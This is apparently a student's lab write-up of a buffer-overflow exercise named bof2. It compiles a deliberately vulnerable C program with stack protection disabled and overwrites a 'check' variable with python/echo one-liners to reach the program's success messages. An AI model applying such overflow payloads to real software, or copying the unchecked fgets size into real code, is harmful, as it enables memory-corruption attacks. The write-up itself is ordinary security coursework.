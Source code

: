 # Lab bof2
Hà Quốc Tiến - 22110075<br>
## Target
- Change the value of `check`, so that it statisfy the if condition.
## Solution
- Stack frame<br>
![bof2_1](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/img/bof2_1.png)
- We review `bof2.c` and see that buf only take 40 bytes of data. But the `fgets()` can took 45 bytes, then we watch the stack frame and see that in order to change the `check` by using buffer-overflow. We need to insert 44 bytes of data (40 for `buf[40]`  + 4 for `check` ), so 45 at the `fgets()` is enough.
## Execution
1. Create `bof2.out` by using ` gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
2. We start buffer-overflowing 44 bytes of data into `buf[40]`.<br>
- First, let try to print `You are on the right way!`, by changing the `check` so that it doesn't = 0x04030201 and 0xdeadbeef.<br>
    > echo $(python -c "print('a'*40+'\x6b\x84\x04\x00')")| ./bof2.out<br>

    ![bof2_2](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/img/bof2_2.png)
- Second, let print out `Yeah! You win!`, by changing the `check` so that it = 0xdeadbeef<br>
    > echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')")| ./bof2.out

    ![bof2_3](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/img/bof2_3.png)
- And the lab is done.
